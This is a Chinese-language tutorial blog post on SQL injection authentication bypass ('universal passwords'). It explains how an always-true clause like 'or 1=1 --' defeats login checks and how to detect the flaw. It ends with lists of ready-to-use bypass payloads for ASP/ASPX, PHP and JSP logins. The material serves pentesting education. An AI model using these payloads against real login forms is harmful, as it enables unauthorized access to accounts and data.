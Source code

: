 ```yaml
---
layout: post
tags: SQL注入 渗透测试
title: "SQL注入（二）"
category: SQL注入
---
```


## OR漏洞简述

该漏洞又称万能密码，效果是通过构造一个恒为真的语句来绕过用户名密码检测，不通过密码即可登录进去

## 漏洞原理

由于程序对用户输入没有进行过滤，我们可以通过构造恒为真的语句来控制查询。

例如在我们输入用户名为 `admin` 密码为 `123` 时，SQL查询语句为

{% highlight ruby %}
SELECT * FROM admin WHERE Name='admin' and passWord='123'
{% endhighlight %}


而我们通过构造语句在用户名处输入 `'or 1=1 --` 密码为任意值如 `111`此时查询语句变为

{% highlight ruby %}
SELECT * FROM admin WHERE Name=''or 1=1 --' and passWord='111'
{% endhighlight %}

此时的效果是用户名为null，而后面加入了一个恒为真的语句 `1=1` 此时用户名部分是为真的。`--`表示注释掉后面所有的内容，因此在 `--` 后面的内容都失效了，密码不会进行判断。

原本程序设定应该是当这条SQL查询语句查询到用户名密码均正确时返回真，返回结果为真时登陆进界面。此时由于构造了一个为真的语句，我们便可以绕过用户名密码进行登陆。

## 判断方法

在输入框输入单引号进行登陆，若有报错说明没有对单引号进行过滤，存在此漏洞

## 不同类型程序的万能密码

应该注意的是不同类型的数据库程序所使用的语法不同，以下内容转自[chengker](http://chengkers.lofter.com/post/14c64b_379726)的博客

### asp aspx万能密码

* `"or "a"="a`
* `')or('a'='a`
* `or 1=1--`
* `'or 1=1--`
* `a'or' 1=1--`
* `"or 1=1--`
* `'or'a'='a`
* `"or"="a'='a`
* `'or''='`
* `'or'='or'`
* `1 or '1'='1'=1`
* `1 or '1'='1' or 1=1`
* `'OR 1=1%00`
* `"or 1=1%00`
* `'xor`
* `用户名 ' UNION Select 1,1,1 FROM admin Where ''=' （替换表名admin） 密码 1`
* `..admin' or 'a'='a 密码随便`

### PHP万能密码

* `'or 1=1/*`
* `User: something`
* `Pass: ' or '1'='1`

### jsp 万能密码

* `1'or'1'='1`
* `admin' or 1=1/*`